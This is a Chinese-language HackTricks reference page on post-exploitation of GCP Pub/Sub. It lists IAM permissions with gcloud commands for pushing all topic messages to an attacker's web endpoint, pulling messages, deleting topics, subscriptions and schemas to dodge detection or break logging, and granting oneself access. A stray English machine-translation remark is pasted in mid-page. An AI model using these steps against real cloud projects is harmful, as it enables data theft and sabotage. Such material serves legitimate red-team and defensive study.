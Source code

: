 # GCP - Pub/Sub 后渗透

<details>

<summary><strong>从零到英雄学习 AWS 黑客技术，参加</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您希望在 **HackTricks 中看到您的公司广告** 或 **下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFT 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>

## Pub/Sub

有关 Pub/Sub 的更多信息，请查看以下页面：

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

在主题中发布消息，用于**发送意外数据**并触发意外功能或利用漏洞：
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

用于防止订阅接收消息，可能是为了避免被检测。
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

用于防止订阅接收消息，可能是为了避免被检测。\
即使主题上有订阅，也可以删除它。
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

使用此权限更新主题的某些设置以中断它，例如 `--clear-schema-settings`、`--message-retention-duration`、`--message-storage-policy-allowed-regions`、`--schema`、`--schema-project`、`--topic-encryption-key` 等。

### `pubsub.topics.setIamPolicy`

授予自己权限执行任何前述攻击。

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

获取 Web 服务器中的所有消息：

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

创建一个订阅并使用它来**拉取消息**：
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**删除订阅** 可能对破坏日志处理系统或类似系统有用：
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

使用此权限更新设置，以便将消息存储在您可以访问的位置（URL、Big Query表、Bucket），或者仅仅为了扰乱它。

### `pubsub.subscriptions.setIamPolicy`

给予自己执行前面评论过的攻击所需的权限。

### `pubsub.schemas.delete`

删除一个schema，以便能够发送不符合该schema的消息：
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

将 schema 攻附到 topic 上，使消息不满足 schema，从而扰乱 topic。\
如果没有任何 schemas，您可能需要创建一个。

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
Since the provided text does not contain any English content to translate, there is no translation to provide. The text is a closing tag for a code block in markdown syntax. If you have any actual content that needs translation, please provide it, and I will translate it accordingly.
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.setIamPolicy`

给自己授权执行之前评论过的任何攻击所需的权限。

### `pubsub.snapshots.create`,  `pubsub.snapshots.seek`

这将创建所有未确认消息的快照，并将它们放回订阅中。对攻击者来说不是很有用，但这里是：
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>从零开始学习AWS黑客技术直到成为专家，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
